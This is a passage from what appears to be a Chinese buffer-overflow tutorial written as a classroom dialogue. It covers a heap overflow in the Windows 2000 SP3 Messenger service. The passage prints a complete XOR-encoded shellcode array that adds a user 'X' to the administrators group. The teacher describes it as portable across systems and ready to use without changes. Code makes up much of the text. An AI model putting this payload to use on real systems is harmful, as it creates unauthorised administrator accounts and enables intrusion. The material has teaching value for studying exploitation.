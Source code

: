 ![](img/Q 版缓冲区溢出教程 129521.jpg)

“哦！和前面的堆溢出分析果然一模一样啊！”同学们感叹道。

“是的，我们继续按照经典的三步走，完成攻击。”

# 4.3.2 通用和编码 ShellCode 初接触

### 4.3.2 通用和编码 ShellCode 初接触

“定位了溢出点，下一步就是 ShellCode 的编写。”

“前几次课，我们对 ShellCode 的编写进行了详细讲解，这里就使用现成的添加用户的 ShellCode 吧！功能是添加一个名为‘X’的用户，并加入到管理组中。”

```
unsigned char ShellCode[] = // XorDecode 
    "\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x3E\x01\x80\x34\x0A\x96\xE2\xFA" 
    "\xEB\x05\xE8\xEB\xFF\xFF\xFF"
    // AddUser:X Pass:X
    "\xf0\x17\x7a\x16\x96\x1f\x70\x7e\x21\x96\x96\x96\x1f\x90\x1f\x55"
    "\xc5\xfe\xe8\x4e\x74\xe5\x7e\x2b\x96\x96\x96\x1f\xd0\x9a\xc5\xfe"
    "\x18\xd8\x98\x7a\x7e\x39\x96\x96\x96\x1f\xd0\x9e\xa7\x4d\xc5\xfe"
    "\xe6\xff\xa5\xa4\xfe\xf8\xf3\xe2\xf7\xc2\x69\x46\x1f\xd0\x92\x1f"
    "\x55\xc5\xfe\xc8\x49\xea\x5b\x7e\x1a\x96\x96\x96\x1f\xd0\x86\xc5"
    "\xfe\x41\xab\x9a\x55\x7e\xe8\x96\x96\x96\x1f\xd0\x82\xa7\x56\xa7"
    "\x4d\xd5\xc6\xfe\xe4\x96\xe5\x96\xfe\xe2\x96\xf9\x96\xfe\xe4\x96"
    "\xf7\x96\xfe\xe5\x96\xe2\x96\xfe\xf8\x96\xff\x96\xfe\xfb\x96\xff"
    "\x96\xfe\xd7\x96\xf2\x96\x1f\xf0\x8a\xc6\xfe\xce\x96\x96\x96\x1f"
    "\x77\x1f\xd8\x8e\xfe\x96\x96\xca\x96\xc6\xc5\xc6\xc6\xc5\xc6\xc7"
    "\xc7\x1f\x77\xc6\xc2\xc7\xc5\xc6\x69\xc0\x86\x1d\xd8\x8e\xdf\xdf"
    "\xc7\x1f\x77\xfc\x97\xc7\xfc\x95\x69\xe0\x8a\xfc\x96\x69\xc0\x82"
    "\x69\xc0\x9a\xc0\xfc\xa6\xcf\xf2\x1d\x97\x1d\xd6\x9a\x1d\xe6\x8a"
    "\x3b\x1d\xd6\x9e\xc8\x54\x92\x96\xc5\xc3\xc0\xc1\x1d\xfa\xb2\x8e"
    "\x1d\xd3\xaa\x1d\xc2\x93\xee\x97\x7c\x1d\xdc\x8e\x1d\xcc\xb6\x97"
    "\x7d\x75\xa4\xdf\x1d\xa2\x1d\x97\x78\xa7\x69\x6a\xa7\x56\x3a\xae"
    "\x76\xe2\x91\x57\x59\x9b\x97\x51\x7d\x64\xad\xea\xb2\x82\xe3\x77"
    "\x1d\xcc\xb2\x97\x7d\xf0\x1d\x9a\xdd\x1d\xcc\x8a\x97\x7d\x1d\x92"
    "\x1d\x97\x7e\x7d\x94\xa7\x56\x1f\x7c\xc9\xc8\xcb\xcd\x54\x9e\x96"; 
```

“老师，这个 ShellCode 是针对哪个系统的呢？”台下有人问道。

“这个 ShellCode 是经过编码变换的，而且采用动态定位的方式，各个系统可以通用。”

“编码？通用？好神奇啊！这是怎么实现的呢？”大家问道。

“看来大家都很有兴趣，那我抽个时间给给你们讲讲 ShellCode 的编码及其高级编程吧！”

“好啊！”大家欢呼起来。

“到时我再讲具体的实现吧！现在直接使用就可以。”老师说道，“我们还是先完成对 Windows 2000 SP3 Message 堆溢出漏洞的攻击吧！”

# 4.3.3 跳转和构造
